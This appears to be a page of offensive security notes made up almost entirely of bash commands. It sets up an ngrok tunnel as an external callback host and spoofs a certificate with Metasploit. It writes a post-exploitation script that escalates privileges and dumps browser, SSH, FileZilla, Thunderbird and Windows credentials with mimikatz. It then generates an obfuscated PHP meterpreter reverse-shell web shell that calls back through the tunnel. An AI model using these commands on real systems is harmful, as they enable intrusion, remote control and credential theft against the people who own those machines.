 {% hint style="info" %}
Start Ngrok
{% endhint %}

```bash
nohup ngrok tcp 4444 >/dev/null 2>&1 &
```

{% hint style="info" %}
Define ENV Ngrok
{% endhint %}

```bash
NGINFO=$(curl --silent --show-error http://127.0.0.1:4040/api/tunnels); \
NGHOST=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/([^"]*):.*/\1/p'); \
NGPORT=$(echo "$NGINFO" | sed -nE 's/.*public_url":"tcp:\/\/.*.tcp.*.ngrok.io:([^"]*).*/\1/p')
```

{% hint style="info" %}
Cert Spoof
{% endhint %}

```bash
rm -rf /home/$USER/.msf4/loot/*
msfconsole -qx "
    use auxiliary/gather/impersonate_ssl;
    set RHOSTS google.com;
    run;
    exit"
```

{% hint style="info" %}
Post-EXP
{% endhint %}

```bash
cat > /tmp/post-exp.rc << EOF
getprivs
getsystem
run multi/gather/firefox_creds DECRYPT=true
run multi/gather/filezilla_client_cred
run multi/gather/ssh_creds
run multi/gather/thunderbird_creds
run multi/gather/wlan_geolocate
mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
bg
EOF
```

{% hint style="info" %}
Generate Web shell PHP
{% endhint %}

```bash
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=$NGHOST \
         PORT=$NGPORT \
         EnableStageEncoding=true \
         -f raw \
         -e php/base64 -i 3 \
         -o /tmp/unk9vvn.php
sed -i "s#eval#<?php eval#g" /tmp/unk9vvn.php
sed -i "s#));#)); ?>#g" /tmp/unk9vvn.php
```
